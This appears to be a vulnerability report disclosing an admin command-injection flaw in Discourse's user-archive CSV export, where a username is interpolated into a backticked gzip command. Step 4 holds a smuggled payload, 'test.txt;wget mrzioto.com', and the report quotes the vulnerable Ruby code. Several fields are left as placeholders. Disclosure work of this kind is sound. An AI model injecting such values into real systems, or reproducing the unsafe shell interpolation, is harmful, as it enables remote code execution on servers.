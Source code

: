 ## Title
> Admin Command Injection via username in user_archive ExportCsvFile

## Severity
> High

## Description
> When a user generates a backup of their posts, their username gets sent to the ExportCsvFile job. \
The username is placed inside of a gzip command in backticks. Although the application prevents \
special characters in usernames, an admin is able to make modifications to the database via the \
restore from backup feature. This allows an admin to escalate to command injection.

## Reproduction Steps
1. Login as an admin on try.discourse.org, e.g.
    - http://try.discourse.org/
2. Make a backup of the website and download it.
3. Extract the contents of the archive.
4. Modify one of the usernames of an account you have access to:
    - test.txt;wget mrzioto.com
5. Repackage the archive.
6. Upload the modified archive.
7. Restore from backup.
8. Log into the account you just modified (you can login via email address, so the special characters won't prevent you from logging into it).
9. Send the POST request for creating a user export archive:
    - http://34.205.246.2/export_csv/export_entity.json
    - POST: entity_type=user&entity=user_archive
10. ---> You forced the server to make a wget leading to RCE/command injection.

## Impact
> impact

## Exploit Code
```
file_name_prefix = if @entity == "user_archive"
    "#{@entity.split('_').join('-')}-#{@current_user.username}-#{Time.now.strftime("%y%m%d-%H%M%S")}"

file_name = "#{file_name_prefix}-#{file.id}.csv"
absolute_path = "#{UserExport.base_directory}/#{file_name}"
      `gzip -5 #{absolute_path}`
```

## Mitigation
> mitigation

## Affected Assets
> assets
